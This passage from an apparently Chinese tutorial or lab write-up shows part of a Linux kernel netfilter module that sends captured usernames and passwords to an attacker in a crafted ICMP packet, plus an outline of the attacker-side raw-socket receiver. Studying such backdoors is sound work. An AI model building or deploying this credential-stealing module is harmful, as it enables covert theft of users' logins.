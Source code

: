 ```c
    /*
    * This is where things will die if they are going to.
    * Fingers crossed...
    * 发送 buffer
    * A negative errno code is returned on a failure.
    * A success does not guarantee the frame will be transmitted
    * as it may be dropped due to congestion or traffic shaping.*/
    dev_queue_xmit(sb);
    printk("the pair has been send to target");
    /* Now free the saved username and password and reset have_pair */
    kfree(username);
    kfree(password);
    username = password = NULL;
    have_pair = 0;
    target_port = target_ip = 0;
    printk("clear the pair\n");
    /* 不能return NF_DROP，因为dev_queue_xmit将释放缓冲区，
    * Netfilter将尝试对NF_DROPped数据包执行相同操作，导致内核错误。*/
    return NF_STOLEN;
    }


 ```
    
 #### 5. 清理netfilter
 ```c
    void cleanup_module()
    {
    //struct net *net=NULL;
    nf_unregister_net_hook(&init_net,&post_hook);
    nf_unregister_net_hook(&init_net,&pre_hook);
    if (password)
    kfree(password);
    if (username)
    kfree(username);
    return;
    }
    
```
 
 ### hack端的操作 
 

* 向target发送特殊的icmp包  

    raw socket 编程, 发送icmp数据包 ，保证足够的长度盛放target返回的数据。 

    ip头  20字节  icmp头 8字节  icmp数据 4+16+16=36字节   

* 接收和打印target发回的数据


### 遇到的问题

